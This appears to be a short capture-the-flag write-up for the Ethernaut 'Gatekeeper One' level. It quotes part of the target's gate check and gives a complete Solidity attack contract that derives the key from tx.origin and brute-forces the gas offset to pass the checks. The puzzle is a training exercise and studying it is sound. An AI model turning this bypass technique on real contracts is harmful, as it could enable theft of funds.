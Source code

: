 ```solidity
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

```

### Attack!
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, ) = address(GatekeeperOneContractAddress).call{gas: i + 150 + 8191 * 3}(encodedParams);
      if(result)
        {
        break;
      }
    }
  }
}
```

### Special Mention
1. [0xSage](https://forum.openzeppelin.com/t/ethernaut-level-13-gatekeeper-one-correct-opcode-for-gasleft-mod-8191/2125)
2. [Ethernaut Repo](https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/attacks/GatekeeperOneAttack.sol)


